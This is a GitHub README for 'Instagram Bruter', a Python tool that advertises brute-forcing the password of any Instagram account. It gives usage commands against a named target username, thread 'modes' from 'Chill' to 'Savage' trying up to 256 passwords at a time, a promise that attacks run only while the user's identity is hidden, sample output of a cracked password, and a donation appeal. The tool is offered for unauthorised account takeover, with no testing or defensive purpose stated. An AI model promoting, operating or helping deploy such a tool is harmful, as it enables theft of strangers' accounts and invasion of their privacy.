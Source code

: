 # Instagram Bruter

[![Version](https://img.shields.io/badge/Version-v2.1.0-blue.svg)]()
[![Python](https://img.shields.io/badge/Python-v2.7--3-blue.svg)]()
[![Discord](https://img.shields.io/badge/Chat-Server-brightgreen.svg)](https://discord.gg/SMUaWmn)
<br>

This program will brute force any Instagram account you send it its way. Just give it a target, a password list and a mode then press enter and forget about it. No need to worry about anonymity when using this program, its highest priority is your anonymity, it only attacks when your identity is hidden. 


### Support
**It's not easy maintaining this code, a donation of any size will be appreciated**<br>

[![Donate](https://img.shields.io/badge/PayPal-Donate-orange.svg)]( https://www.paypal.me/Msheikh03)

### Donations Received
| Donation Number | Amount Donated |
|      :----:     |      :----:    | 
|        1        |      $35.00    |
|        2        |      $10.00    |
|        3        |      $20.00    |

### Donations Statistics
| Donation Number | Amount Donated |
|      :----:     |      :----:    | 
|        Min      |      $10.00    |
|        Max      |      $35.00    |
|        Avg      |      $21.67    |
|        Total    |      $65.00    |



### Requirements
- Python *v2.7.x* **|** *v3.x.x*
- ~~Kali Linux 2.0~~
- ~~TOR~~

### Install Dependencies
```
python install.py
```

### Help
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py -h
usage: instagram.py [-h] [-m MODE] username wordlist

positional arguments:
  username              email or username
  wordlist              password list

optional arguments:
  -h, --help            show this help message and exit
  -m MODE, --mode MODE  modes: 0 => 16 bots; 1 => 8 bots; 2 => 4 bots; 3 => 2 bots
```

### Usage
```
python instagram.py <username> <wordlist> -m <mode>
```

### Bots(Threads)
- 2 bots: 32 passwords at a time
- 4 bots: 64 passwords at a time
- 8 bots: 128 passwords at a time
- 16 bots: 256 passwords at a time

### Modes
- 0: 16 bots
- 1: 8 bots
- 2: 4 bots
- 3: 2 bots

### Chill mode
This mode uses only 2 bots, or 32 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 3
```

### Moderate mode 1
This mode uses 4 bots, or 64 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 2
```

### Moderate mode 2
This mode uses 8 bots, or 128 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 1
```

### Savage mode
This mode uses 16 bots, or 256 passwords at a time.
```
C:\Users\Mohamed\Desktop\Instagram>python instagram.py Sami09.1 pass.lst -m 0
```

### If you don't specify a mode, then mode is set to 2

### Run
```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: 2
[-] Attempts: 14
[-] Browsers: 87
```

### Stop
```
[-] Wordlist: pass.lst
[-] Username: Sami09.1
[-] Password: Sami123
[-] Attempts: 101
[-] Browsers: 0

[!] Password Found
[+] Username: Sami09.1
[+] Password: Sami123
```
